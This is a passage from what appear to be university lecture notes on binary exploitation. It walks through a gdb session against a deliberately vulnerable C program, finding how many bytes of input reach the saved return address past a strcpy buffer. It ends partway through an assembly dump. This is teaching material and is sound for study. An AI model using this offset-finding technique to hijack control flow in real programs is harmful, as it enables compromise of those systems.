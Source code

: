 If we return to our diagram of the memory layout, our goal now is to
overwrite the return address of the vuln() function. The return address
is stored at ebp+0x4. So far, we know that we reach the base pointer
after 44 bytes, then the next 4 bytes would overwrite that, and the
following 4 bytes would be the return address. We can verify that in
gdb. Remember, when we use 48 A's, there is actually one extra byte for
the null terminator:

``` {.example}
(gdb) run 66 `python -c "print 'A'*48"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/git/si485-binary-exploits/lec/1.2/vulnerable 66 `python -c "print 'A'*48"`

Breakpoint 1, vuln (n=66, str=0xbffff86d 'A' <repeats 48 times>) at vulnerable.c:15
15   int i = 0;  
(gdb) ds
Dump of assembler code for function vuln:
   0x080484d5 <+0>: push   ebp
   0x080484d6 <+1>: mov    ebp,esp
   0x080484d8 <+3>: sub    esp,0x48
=> 0x080484db <+6>: mov    DWORD PTR [ebp-0xc],0x0
   0x080484e2 <+13>: mov    eax,DWORD PTR [ebp+0xc]
   0x080484e5 <+16>: mov    DWORD PTR [esp+0x4],eax
   0x080484e9 <+20>: lea    eax,[ebp-0x2c]
   0x080484ec <+23>: mov    DWORD PTR [esp],eax
   0x080484ef <+26>: call   0x8048360 <strcpy@plt>
   0x080484f4 <+31>: jmp    0x8048516 <vuln+65>
   0x080484f6 <+33>: mov    eax,DWORD PTR [ebp-0xc]
   0x080484f9 <+36>: lea    edx,[eax+0x1]
   0x080484fc <+39>: mov    DWORD PTR [ebp-0xc],edx
   0x080484ff <+42>: lea    edx,[ebp-0x2c]
   0x08048502 <+45>: mov    DWORD PTR [esp+0x8],edx
   0x08048506 <+49>: mov    DWORD PTR [esp+0x4],eax
   0x0804850a <+53>: mov    DWORD PTR [esp],0x804860e
   0x08048511 <+60>: call   0x8048350 <printf@plt>
   0x08048516 <+65>: mov    eax,DWORD PTR [ebp-0xc]
   0x08048519 <+68>: cmp    eax,DWORD PTR [ebp+0x8]
   0x0804851c <+71>: jl     0x80484f6 <vuln+33>
   0x0804851e <+73>: leave  
   0x0804851f <+74>: ret    
End of assembler dump.
(gdb) c
Continuing.

Breakpoint 7, vuln (n=66, str=0xbffff86d 'A' <repeats 48 times>) at vulnerable.c:21
21   while( i < n ){
(gdb) ds
Dump of assembler code for function vuln:
   0x080484d5 <+0>: push   ebp
   0x080484d6 <+1>: mov    ebp,esp
   0x080484d8 <+3>: sub    esp,0x48
   0x080484db <+6>: mov    DWORD PTR [ebp-0xc],0x0
   0x080484e2 <+13>: mov    eax,DWORD PTR [ebp+0xc]
   0x080484e5 <+16>: mov    DWORD PTR [esp+0x4],eax
   0x080484e9 <+20>: lea    eax,[ebp-0x2c]
   0x080484ec <+23>: mov    DWORD PTR [esp],eax
   0x080484ef <+26>: call   0x8048360 <strcpy@plt>
=> 0x080484f4 <+31>: jmp    0x8048516 <vuln+65>
   0x080484f6 <+33>: mov    eax,DWORD PTR [ebp-0xc]
   0x080484f9 <+36>: lea    edx,[eax+0x1]
   0x080484fc <+39>: mov    DWORD PTR [ebp-0xc],edx
   0x080484ff <+42>: lea    edx,[ebp-0x2c]
```